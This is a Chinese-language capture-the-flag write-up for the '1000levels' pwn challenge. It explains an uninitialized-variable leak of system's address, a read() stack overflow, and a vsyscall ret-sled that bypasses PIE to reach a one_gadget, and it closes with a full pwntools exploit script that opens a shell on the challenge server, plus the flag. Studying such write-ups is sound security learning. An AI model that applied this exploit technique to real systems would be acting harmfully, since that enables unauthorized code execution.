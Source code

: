 # 1000levevls

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=15fbd5a5-5caa-4fb2-b1b9-fd7b8654754e_2&task_category_id=2)

现在堆完爆栈，做了几道堆题回来看栈题的wp竟然都不费劲了。然而还是没法自己做出来。

-   Arch:     amd64-64-little
    <br>RELRO:    Partial RELRO
    <br>Stack:    No canary found
    <br>NX:       NX enabled
    <br>PIE:      PIE enabled

顺便提一句，下载下来的附件叫100levels，后面看代码内容也是100levels，那这个题目是什么意思呢(而且好像写错了？）

```c
undefined8 Main(void)
{
  int iVar1;
  Setup();
  PrintTitle();
  while( true ) {
    while( true ) {
      PrintMenu();
      iVar1 = GetInput();
      if (iVar1 != 2) break;
      Hint();
    }
    if (iVar1 == 3) break;
    if (iVar1 == 1) {
      Go();
    }
    else {
      puts("Wrong input");
    }
  }
  GiveUp();
  return 0;
}
```

菜单题，不过这次不是堆。先看hint，有提示不看大傻子。

![hint](../../images/hint.png)

ghidra解释字符串不太行，这些16进制翻译过来或者运行一下就能知道内容是NO PWN NO FUN。没啥用，pwn题不pwn还能干啥呢？不过有一个可疑的地方，PTR_system_00301fd0是干什么的？这里似乎不可能被调用，但看汇编会发现PTR_system_00301fd0无论如何都会被存到rbp-0x110的地方。有猫腻啊，看看别的函数。

```c
void Go(void)
{
  int iVar1;
  long lVar2;
  time_t tVar3;
  time_t tVar4;
  long local_118;
  ulong local_110;
  char local_108 [256];
  puts("How many levels?");
  lVar2 = GetInput();
  if (lVar2 < 1) {
    puts("Coward");
    lVar2 = local_118;
  }
  local_118 = lVar2;
  puts("Any more?");
  lVar2 = GetInput();
  local_110 = lVar2 + local_118;
  if (0 < (long)local_110) {
    if (99 < (long)local_110) {
      puts("You are being a real man.");
      local_110 = 100;
    }
    puts("Let\'s go!\'");
    tVar3 = time((time_t *)0x0);
    iVar1 = Level(local_110 & 0xffffffff);
    if (iVar1 == 0) {
      puts("You failed.");
    }
    else {
      tVar4 = time((time_t *)0x0);
      sprintf(local_108,"Great job! You finished %d levels in %d seconds\n",local_110,
              (ulong)(uint)((int)tVar4 - (int)tVar3));
      puts(local_108);
    }
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("Coward Coward Coward Coward Coward");
  return;
}
```

这里ghidra和ida的反编译简直天差地别。放一张看的[wp](https://blog.csdn.net/seaaseesa/article/details/102984101)的ida同函数截图。

![ida](../../images/20191109102229750.png)

ida中可以很清楚地看出来“当输入的levels（lVar2）小于等于0，那么local_118不会被初始化”这个逻辑。在ghidra里就有点云里雾里。ghidra里的判断条件正好相反，所以if和else语句也相反。这倒是没啥，但是if里面lVar2 = local_118;是啥意思呢？这可能没有太大的影响，后面local_118 = lVar2;才真的扰乱判断。无论怎么输入，local_118都会等于lVar2，跟这道题的关键点不符，因此做出来的希望渺茫（我已经很菜了结果ghidra又整这么一套）。

所以这道题的关键是啥呢？还记得rbp-0x110存着system的地址吗？hint和go函数是在同一个函数中被调用的，所以它们rbp的值是同一个。ghidra里面变量的命名是相对于返回地址的，因此Go函数中local_118就对应着hint函数中的rbp-0x110。如果local_118没有被初始化，那么这里面就会存着system的地址。接着还有lVar2 = GetInput();和local_110 = lVar2 + local_118;这两行代码，lVar2我们可以随意控制，local_118是system地址，那么local_110就可以表达任意地址，lVar2是任意地址相对local_118的偏移。有进展了，继续往下。

```c
undefined8 Level(uint param_1)
{
  int iVar1;
  undefined8 uVar2;
  long lVar3;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  int local_14;
  uint local_10;
  uint local_c;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  if (param_1 == 0) {
    uVar2 = 1;
  }
  else {
    iVar1 = Level(param_1 - 1);
    if (iVar1 == 0) {
      uVar2 = 0;
    }
    else {
      iVar1 = rand();
      local_c = iVar1 % (int)param_1;
      iVar1 = rand();
      local_10 = iVar1 % (int)param_1;
      local_14 = local_c * local_10;
      puts("====================================================");
      printf("Level %d\n",(ulong)param_1);
      printf("Question: %d * %d = ? Answer:",(ulong)local_c,(ulong)local_10);
      read(0,&local_38,1024);
      lVar3 = strtol((char *)&local_38,(char **)0x0,10);
      if (lVar3 == local_14) {
        uVar2 = 1;
      }
      else {
        uVar2 = 0;
      }
    }
  }
  return uVar2;
}
```

read(0,&local_38,1024);这行代码的栈溢出可太明显了，但问题在于pie开启后我们无法rop了，因为不知道要返回的准确地址。慢着，这个函数由Go调用，那么其栈帧和Go的应该是挨着的。Go里面有个system，有没有办法让返回地址往Go的栈帧滑过去一点，这样不就能getshell了吗？

一般情况下可以用pop，但是这里连pop也没法用，还是pie的问题。retn也行，因为retn相当于POP eip，还是pop了一下。有没有什么gadget带着retn且地址不会变的？

确实有，叫Vsyscall，用于系统调用，它的地址固定在0xffffffffff600000-0xffffffffff601000。虽然vsyscall是系统调用，但是没办法返回到中间，要求必须从头开始，否则会报错。

![vsyscall](../../images/20191109102352928.jpeg)

不过从0xffffffffff600000开始也没关系，反正最后都会retn的，没有多大影响。来三个就可以把返回地址偏移24个字节，就到了local_110的位置。

这就结束了？并没有。64位系统靠寄存器传参，没有gadget根本没法输入/bin/sh。那我们直接找one_gadget，一发入魂。用one_gadget工具在给的libc里找找看，能找到0x4526a这个gadget。0x4526a-system地址得到两者的偏移。偏移肯定是大于100的，不过Go里面有行代码会把大于100的数字控制在100，所以我们只需要玩100次游戏就好了。

```python
from pwn import *  
sh = remote('61.147.171.105',64329)
vsyscall = 0xffffffffff600000  
system_addr = 283536
one_gadget = 0x4526a  
offset_addr = one_gadget - system_addr  
sh.sendlineafter('Choice:\n','2')  
sh.sendlineafter('Choice:\n','1')  
sh.sendlineafter('How many levels?\n','0')  
sh.sendafter('Any more?\n',str(offset_addr))  
for i in range(0,99):  
   sh.recvuntil('Question: ')  
   a = int(sh.recvuntil(' '))  
   sh.recvuntil('* ')  
   b = int(sh.recvuntil(' '))  
   sh.sendlineafter('Answer:',str(a*b))  
payload = b'a'*0x38 + p64(vsyscall)*3  
sh.sendafter('Answer:',payload)  
sh.interactive()
```

- ### Flag
  > cyberpeace{0679d63beb7c424915a381bc628a092f}